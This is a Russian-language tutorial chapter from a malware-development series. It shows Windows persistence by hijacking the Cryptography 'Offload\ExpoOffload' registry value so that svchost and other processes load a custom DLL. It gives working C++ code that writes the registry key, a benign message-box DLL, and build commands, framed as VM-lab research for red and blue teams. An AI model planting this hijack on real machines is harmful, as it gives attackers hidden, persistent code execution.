\newpage
\subsection{82. разработка вредоносного ПО: закрепление (persistence) - часть 16. Криптографические ключи реестра. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через ключи реестра Cryptography.     

В процессе изучения реестра я наткнулся на интересный путь:     

`HKLM\Software\Microsoft\Cryptography\`     

И там есть такая функция `OffloadModExpo`. Если я правильно понимаю, эта функция используется для выполнения всех модульных возведений в степень как для операций с открытым, так и с закрытым ключом:     

{width="80%"}    

Я не вдавался в слишком большие подробности, самой возможности поэкспериментировать с этим ключом и значением в реестре Windows мне достаточно. Поэтому я попробовал перехватить путь к этой DLL:     

`HKLM\Software\Microsoft\Cryptography\Offload` и его значение.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL. Как обычно, просто `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - вредоносная DLL
DLL hijacking через путь в реестре Cryptography
aвтор: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Компилируем:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

{width="80%"}    

И создаем Proof-of-Concept код для перехвата (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Вот и все, что мне нужно для эксперимента.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш Proof-of-Concept код:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    


Затем, для чистоты эксперимента, проверяем ключи реестра на машине жертвы и удаляем ключи, если они существуют:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

{width="80%"}    

Затем запускаем наш скрипт `pers.exe` и проверяем снова:     

{width="80%"}    

Теперь попробую запустить что-нибудь. Например, открыть ссылку `https:\...` в браузере или воспользоваться строкой поиска.    

{width="80%"}    

В процессе выполнения некоторых криптографических операций в фоне мы будем видеть все больше всплывающих окон.    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Кроме того, мне даже не удалось запустить `Process Hacker 2` для исследования ситуации.     

{width="80%"}    

Затем я восстановил снимок виртуальной машины и запустил `Procmon` из sysinternals с следующими фильтрами:     

{width="80%"}    

{width="80%"}    

И в результате:     

{width="80%"}    

{width="80%"}    

Как можно видеть, на каком-то этапе моя "вредоносная" `meow-meow` DLL была загружена `svchost.exe`, `ProcessHacker.exe` и другими процессами.     

Таким образом, все сработало правильно. Идеально! =^..^=     

После завершения экспериментов восстанавливаем состояние реестра: 

{width="80%"}    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     
